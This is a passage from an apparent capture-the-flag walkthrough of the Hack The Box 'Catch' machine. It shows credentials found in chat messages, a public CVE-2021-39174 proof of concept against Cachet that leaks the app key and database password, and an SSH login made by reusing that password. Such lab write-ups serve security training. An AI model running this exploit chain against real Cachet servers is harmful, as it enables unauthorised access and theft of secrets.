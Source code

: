 We found three rooms. We can also read messages in the rooms with a get request to `/rooms/:room/messages` where `:room` is the id of the room

![](8.png)

In one of the rooms we find a message with some credentials.

We can use those to login to `cachet` on port 8000

![](9.png)

We can see the version is `2.4.0-dev`

## **Foothold**

One other vulnerability mentioned in the [article](https://www.sonarsource.com/blog/cachet-code-execution-via-laravel-configuration-injection/) is `CVE-2021-39174 - Configuration Leak`, and we can find an exploit right [here](https://github.com/n0kovo/CVE-2021-39174-PoC)

Let's run the exploit.

```terminal
$ python exploit.py -u http://catch.htb:8000 -n john -p 'E}V!mywu_69T4C}W'                                                                           1 ⨯
[+] Getting CSRF token
[+] CSRF token: UWVzu0754T2vYNT1li3TEgMAddQWMV2TkmwCZLWC
[+] Logging in as user 'john'
[+] Successfully logged in
[+] Getting current field values
[+] Sending payload
[+] Extracted the following values:
- APP_KEY               = base64:9mUxJeOqzwJdByidmxhbJaa74xh3ObD79OI6oG1KgyA=
- DB_DRIVER             = mysql
- DB_HOST               = localhost
- DB_DATABASE           = cachet
- DB_USERNAME           = will
- DB_PASSWORD           = s2#4Fg0_%3!
[+] Unsetting payload variable
[+] Exiting
```

We got database credentials, let's see if the user `will` uses the same password for his account.

```terminal
$ ssh will@catch.htb                                           
will@catch.htb's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-104-generic x86_64)
                                       
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 19 May 2023 06:01:48 PM UTC

  System load:                      0.68
  Usage of /:                       71.6% of 16.61GB
  Memory usage:                     84% 
  Swap usage:                       27% 
  Processes:                        442 
  Users logged in:                  0
  IPv4 address for br-535b7cf3a728: 172.18.0.1
  IPv4 address for br-fe1b5695b604: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.150
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:5923

will@catch:~$ id
```